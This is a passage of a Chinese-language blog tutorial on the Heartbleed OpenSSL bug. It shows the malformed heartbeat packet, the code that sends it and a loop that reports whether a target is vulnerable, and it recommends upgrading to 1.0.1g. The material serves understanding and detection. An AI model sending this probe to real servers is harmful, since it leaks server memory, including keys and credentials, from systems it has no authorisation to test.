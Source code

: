 Server Hello 消息返回, 说明TTL/SSL 会话成功建立, 此过程伴随有Certificate, Server Key Exchange, Server Hello Done.

###发送畸形heartbleed数据

Server Hello成功返回后, 向服务器发送畸形heartbleed请求. 如果服务器响应, 会伴随有Encrypted Heartbeats Message，也就是泄露的内存数据.

```

s.send(h2bin(hb))  # Malformed Packet

```

Heartbleed 包数据如下:

```

    ---------TLSv1---[Heartbeat Request]------------
    # It's a fake heartbeat package, the length is not as long as it's claimed
    hb = [
          # TLSv1.1 Record Layer: Heartbeat Request
    "18"      # Content Type: Heartbeat (24) ---- (0x18)
    "03 02"   # Version: TLS 1.1 (0x0302)
    "00 03"   # Heartbeat Message: 
    "01"      #    Type: Request (1) (0x01)
    "40 00"   #    Payload Length: (16384) (0x4000),服务器会复制内存中16384字节的数据，并发挥给客户端
    ]

```

检测漏洞是否存在

畸形数据包发送完成后, 检测漏洞是否存在

```

while True:
        print "[+] receive data..."
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print "[-] %s |NOT VULNERABLE" % target
            return False

        # TLSv1.1 Record Layer: Encrypted Heartbeat
        # Content Type: Heartbeat (24)
        # Version: TLS 1.1 (0x0302)
        # Length: 19
        # Encrypted Heartbeat Message
        if typ == 24:        # Content Type: Heartbeat (24)
            if len(pay) > 3: # 无数据返回.
                print "[*] %s |VULNERABLE" % target
            else:
                print "[-] %s |NOT VULNERABLE" % target
            return True

        if typ == 21:
            print "[-] %s |NOT VULNERABLE" % target
            return False

```

泄露的部分数据如下图所示.


修复建议:
        请使用无漏洞版本1.0.1g
        
完整代码请参考：
https://gist.github.com/sh1n0b1/10100394

[id]: https://github.com/chyun/Blog/blob/gh-pages/images/20140611_TLS.jpg
